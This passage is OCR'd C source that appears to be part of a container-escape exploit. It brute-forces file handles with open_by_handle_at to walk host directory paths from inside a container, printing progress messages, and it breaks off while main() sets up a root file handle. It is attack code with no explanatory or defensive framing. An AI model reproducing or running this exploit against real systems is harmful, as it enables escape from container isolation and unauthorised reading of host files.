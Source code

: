 ```c
  struct dirent * de = NULL;
  path = strchr(path, '/');
  // recursion stops if path has been resolved
  if (!path) {
    memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
    oh -> handle_type = 1;
    oh -> handle_bytes = 8;
    return 1;
  }
  ++path;
  fprintf(stderr, "[*] Resolving '%s'\n", path);
  if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
    die("[-] open_by_handle_at");
  if ((dir = fdopendir(fd)) == NULL)
    die("[-] fdopendir");
  for (;;) {
    de = readdir(dir);
    if (!de)
      break;
    fprintf(stderr, "[*] Found %s\n", de -> d_name);
    if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
      fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
      ino = de -> d_ino;
      break;
    }
  }

  fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
  if (de) {
    for (uint32_t i = 0; i < 0xffffffff; ++i) {
      outh.handle_bytes = 8;
      outh.handle_type = 1;
      memcpy(outh.f_handle, & ino, sizeof(ino));
      memcpy(outh.f_handle + 4, & i, sizeof(i));
      if ((i % (1 << 20)) == 0)
        fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
      if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
        closedir(dir);
        close(fd);
        dump_handle( & outh);
        return find_handle(bfd, path, & outh, oh);
      }
    }
  }
  closedir(dir);
  close(fd);
  return 0;
}

int main(int argc, char * argv[]) {
  char buf[0x1000];
  int fd1, fd2;
  struct my_file_handle h;
  struct my_file_handle root_h = {
    .handle_bytes = 8,
    .handle_type = 1,
    .f_handle = {
      0x02,
      0,
      0,
      0,
      0,
      0,
```